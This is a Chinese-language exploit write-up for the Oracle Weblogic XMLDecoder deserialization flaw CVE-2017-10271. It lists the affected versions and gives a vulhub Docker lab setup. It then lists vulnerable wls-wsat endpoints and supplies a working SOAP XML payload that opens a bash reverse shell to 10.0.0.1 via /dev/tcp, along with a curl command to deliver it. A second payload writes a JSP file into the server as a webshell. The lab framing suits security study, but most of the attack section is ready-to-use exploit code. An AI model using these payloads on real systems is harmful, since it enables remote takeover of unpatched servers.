



# Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 漏洞影响

<a-checkbox checked>Weblogic 10.3.6.0.0</a-checkbox></br>

<a-checkbox checked>Weblogic 12.1.3.0.0</a-checkbox></br>

<a-checkbox checked>Weblogic 12.2.1.0.0</a-checkbox></br>

<a-checkbox checked>Weblogic 12.2.1.2.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

## 漏洞复现

对 `http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType` 进行访问，存在这个url则可能存在漏洞

```plain
其他可利用URL
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```





使用POST方法上传以下数据反弹一个shell

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```


使用Curl反弹shell (将上面的xml数据保存为poc.xml)

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType"
```



也可以通过漏洞写入webshell文件

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 http://xxx.xxx.xxx.xxx:7001/bea_wls_internal/test.jsp 即可得到写入的文件

## 漏洞POC

<a-alert type="success" message="利用 weblogic-scan快速检测: https://github.com/kingkaki/weblogic-scan" description="" showIcon>
</a-alert>

